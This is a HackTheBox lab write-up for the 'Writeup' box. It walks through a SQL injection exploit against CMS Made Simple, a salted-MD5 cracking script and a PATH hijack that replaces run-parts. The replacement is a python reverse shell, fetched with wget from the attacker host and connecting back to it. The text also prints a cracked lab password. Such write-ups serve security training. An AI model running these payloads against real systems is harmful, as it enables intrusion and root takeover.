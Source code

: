 This is my first writeup for any of the boxes I've done on HackTheBox and, fittingly, it's for writeup.

![writeup info](Writeup.JPG)

The box has a vulnerable version of CMS Made Simple installed on it and a recurring command to run run-parts 
has a relative path specified which allows the user to create their own executable that will be executed when the command triggers.
Both of these together allow the user to gain root access and retrieve the flag.

Let's get to it with some enumeration using nmap:
```
# Nmap 7.70 scan initiated Thu Jun 20 17:46:20 2019 as: nmap -vvv -sV -sC -oA nmap 10.10.10.138
Nmap scan report for 10.10.10.138
Host is up, received echo-reply ttl 63 (0.10s latency).
Scanned at 2019-06-20 17:46:20 EDT for 24s
Not shown: 998 filtered ports
Reason: 998 no-responses
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKBbBK0GkiCbxmAbaYsF4DjDQ3JqErzEazl3v8OndVhynlxNA5sMnQmyH+7ZPdDx9IxvWFWkdvPDJC0rUj1CzOTOEjN61Qd7uQbo5x4rJd3PAgqU21H9NyuXt+T1S/Ud77xKei7fXt5kk1aL0/mqj8wTk6HDp0ZWrGBPCxcOxfE7NBcY3W++IIArn6irQUom0/AAtR3BseOf/VTdDWOXk/Ut3rrda4VMBpRcmTthjsTXAvKvPJcaWJATtRE2NmFjBWixzhQU+s30jPABHcVtxl/Fegr3mvS7O3MpPzoMBZP6Gw8d/bVabaCQ1JcEDwSBc9DaLm4cIhuW37dQDgqT1V
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPzrVwOU0bohC3eXLnH0Sn4f7UAwDy7jx4pS39wtkKMF5j9yKKfjiO+5YTU//inmSjlTgXBYNvaC3xfOM/Mb9RM=
|   256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEuLLsM8u34m/7Hzh+yjYk4pu3WHsLOrPU2VeLn22UkO
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 20 17:46:44 2019 -- 1 IP address (1 host up) scanned in 24.36 seconds
```

With a standard scan there only appears to be ssh and a web server accessible for now.

Upon opening 10.10.10.138 in a browser, we are greeted with this message:

```
########################################################################
#                                                                      #
#           *** NEWS *** NEWS *** NEWS *** NEWS *** NEWS ***           #
#                                                                      #
#   Not yet live and already under attack. I found an   ,~~--~~-.      #
#   Eeyore DoS protection script that is in place and   +      | |\    #
#   watches for Apache 40x errors and bans bad IPs.     || |~ |`,/-\   #
#   Hope you do not get hit by false-positive drops!    *\_) \_) `-'   #
#                                                                      #
#   If you know where to download the proper Donkey DoS protection     #
#   please let me know via mail to jkr@writeup.htb - thanks!           #
#                                                                      #
########################################################################
```

So this site will probably ban us for a bit if we scan too fast. Might as well check some standard stuff first, it is supposed to be an easy box after all.
Let's check robots.txt first. There is one disallowed url:
```
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
```

Checking writeup we see a homepage that lists multiple writeups that are all accessed with index.php?page=x
Maybe there's some php file inclusion vuln or injection available. Using Wappalyzer to check used technologies, it says that the website appears to be using CMS Made Simple.
Let's see if there's some exploits available for this.

```
root@kali:~/Documents/htb/boxes/writeup# searchsploit cms made simple 
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path                                  
                                       | (/usr/share/exploitdb/)                
--------------------------------------- ----------------------------------------

...
CMS Made Simple < 2.2.10 - SQL Injecti | exploits/php/webapps/46635.py
...
```
Here's one that mentions SQL Injection, seems like a good choice for when we have an index.php loading page.

Let's copy the python file to the current directory and check it out. It tries to dump salts usernames emails and passwords then attempt to crack them. 
Run the command:
```
python 46635.py -u http://10.10.10.138/writeup/
```
which gives the following output after changing TIME to 1 inside the script.

<pre><font color="#8AE234"><b>[+] Salt for password found: 5a599ef579066807</b></font>
<font color="#8AE234"><b>[+] Username found: jkr</b></font>
<font color="#8AE234"><b>[+] Email found: jkr@writeup.htb</b></font>
<font color="#8AE234"><b>[+] Password found: 62def4866937f08cc13bab43bb14e6f7</b></font>
</pre>

Personally I decided to yank out the password cracking portion so I could rerun it without waiting on the exploit if it happened to fail.
Here's the code:
```python
import hashlib

def crack_password():
    password = "62def4866937f08cc13bab43bb14e6f7"
    wordlist = "/usr/share/wordlists/rockyou.txt"
    salt = "5a599ef579066807"
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            print  "\n[+] Password cracked: " + line
            break
    dict.close()

print "Cracking..."
crack_password()
```

Run it:
<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>~/Documents/htb/boxes/writeup</b></font># python crack_pass.py                  
Cracking...

[+] Password cracked: raykayjay9
</pre>
Try to log in through ssh with these credentials and we have user.txt
```
jkr@writeup:~$ wc user.txt 
 1  1 33 user.txt
```
Running a 64bit version of pspy we see one of the commands being run as root, seemingly when people log in with ssh, is the following:
```
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new  
```
Check the directory permissions and which groups jkr belongs to:
<pre>
jkr@writeup:~$ ls -al /usr/local
total 64
drwxrwsr-x 10 root staff  4096 Apr 19 04:11 <font color="#729FCF"><b>.</b></font>
drwxr-xr-x 10 root root   4096 Apr 19 04:11 <font color="#729FCF"><b>..</b></font>
drwx-wsr-x  2 root staff 20480 Oct 11 22:18 <font color="#729FCF"><b>bin</b></font>
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 <font color="#729FCF"><b>etc</b></font>
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 <font color="#729FCF"><b>games</b></font>
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 <font color="#729FCF"><b>include</b></font>
drwxrwsr-x  4 root staff  4096 Apr 24 13:13 <font color="#729FCF"><b>lib</b></font>
lrwxrwxrwx  1 root staff     9 Apr 19 04:11 <font color="#34E2E2"><b>man</b></font> -&gt; <font color="#729FCF"><b>share/man</b></font>
drwx-wsr-x  2 root staff 12288 Oct 11 22:21 <font color="#729FCF"><b>sbin</b></font>
drwxrwsr-x  7 root staff  4096 Apr 19 04:30 <font color="#729FCF"><b>share</b></font>
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 <font color="#729FCF"><b>src</b></font>
jkr@writeup:~$ groups
jkr cdrom floppy audio dip video plugdev staff netdev
</pre>
So our user has no read permissions to /usr/local/bin but we have write permissions so we can just drop a script from our host machine in and have that be run first because of its order in the PATH (since other users were on the box /usr/local/bin was changed less often than sbin so I decided to go through there).

We need a script to run instead of run-parts, thankfully I already have a python reverse shell on my attacking machine and I rename that to run-parts
and start up a web server to transfer it. Grab it and save it to one of the first folders listed in the PATH. The code is listed at the bottom of the next block.
<pre>jkr@writeup:/usr/local/bin$ wget 10.10.15.8:8000/run-parts                     
--2019-10-11 22:17:17--  http://10.10.15.8:8000/run-parts                      
Connecting to 10.10.15.8:8000... connected.                                    
HTTP request sent, awaiting response... 200 OK                                 
Length: 234 [application/octet-stream]
Saving to: ‘run-parts’

run-parts           100%[===================&gt;]     234  --.-KB/s    in 0s      

2019-10-11 22:17:17 (20.6 MB/s) - ‘run-parts’ saved [234/234]                  

jkr@writeup:/usr/local/bin$ cat run-parts                                      
#!/usr/bin/env python3
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)                             
s.connect((&quot;10.10.15.8&quot;,1000))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn(&quot;/bin/bash&quot;)
jkr@writeup:/usr/local/bin$ chmod +x run-parts                                 
jkr@writeup:/usr/local/bin$ ls -al run-parts                                   
-rwxr-xr-x 1 jkr staff 234 Oct 11 01:05 <font color="#8AE234"><b>run-parts</b></font></pre>

Open up a listening port and connect to writeup with ssh again in another window or tab. A connection appears within seconds.
<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>~/Documents/htb/boxes/writeup</b></font># nc -lnvp 1000                         
listening on [any] 1000 ...
connect to [10.10.15.8] from (UNKNOWN) [10.10.10.138] 55596                    
root@writeup:/home# cd /root
cd /root
root@writeup:/root# ls
ls
bin  root.txt
root@writeup:/root# wc root.txt
wc root.txt
 1  1 33 root.txt
root@writeup:/root# 
</pre>
Success! We have root.